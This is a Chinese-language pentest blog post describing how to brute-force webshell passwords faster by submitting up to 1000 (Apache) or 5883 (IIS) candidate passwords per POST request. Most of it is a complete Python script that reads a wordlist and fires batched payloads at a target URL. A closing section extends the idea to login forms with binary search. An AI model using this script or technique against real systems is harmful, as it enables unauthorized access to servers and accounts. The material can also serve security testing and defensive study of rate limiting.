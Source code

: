 +++
date = "2017-02-17T10:32:24+08:00"
description = ""
draft = false
tags = ["爆破"]
title = "利用多参数提高webshell爆破速度"
topics = ["Pentest"]

+++

### 0x00 原理
之前在[https://www.t00ls.net/viewthread.php?tid=36985](https://www.t00ls.net/viewthread.php?tid=36985)看到这个思路的。

Apache下默认同时允许接收1000个参数；IIS下默认同时允许接收5883个参数，可以一次提交多个密码，从而快速爆破。

### 0x01 爆破webshell代码
```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# code by reber <1070018473@qq.com>

import sys
import requests

proxy = {'http':'http://127.0.0.1:8080'}
headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:46.0) Gecko/20100101 Firefox/46.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Language': 'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/x-www-form-urlencoded',
}

def get_file(filename):
    data = []
    with open(filename,'r') as f:
        lines = f.readlines()
        for line in lines:
            data.append(line.strip())
    return data

def get_payloads(data):
    payloads = []
    for x in xrange(0,10):
        print x*1000,(x+1)*1000
        payload = []
        for y in data[x*1000:(x+1)*1000]:
            payload.append("%s=echo '%s';" % (y,y))
        payloads.append('&'.join(payload))
    return payloads

def run(url, payloads):
    for payload in payloads:
        resp = requests.post(url=url,data=payload,headers=headers)
        print resp.content

if __name__ == '__main__':
    url = sys.argv[1]
    filename = sys.argv[2]

    data = get_file(filename)
    payloads = get_payloads(data)
    run(url, payloads)
```
![](/img/post/blasting_webshell.png)

### 0x02 猜想
平时爆破表单时都是一次提交一个payload，比如说```username='xxx'&password='xxx'```，10w个组合需要提交10w次，若一次提交500个组合则只需要提交200次

我们可以直接一次提交500个payload，如：name='111'&pass='111'&name='112'&pass='112'&name='113'&pass='113'& 。。。。。。(500个payload)

如果正确的密码在你测试的某1000个参数中，那么返回页面的是不同的，则可以断定正确的用户名和密码在这1000个参数里，然后对这1000个参数用二分法再次进行测试，直到得到正确的用户名和密码
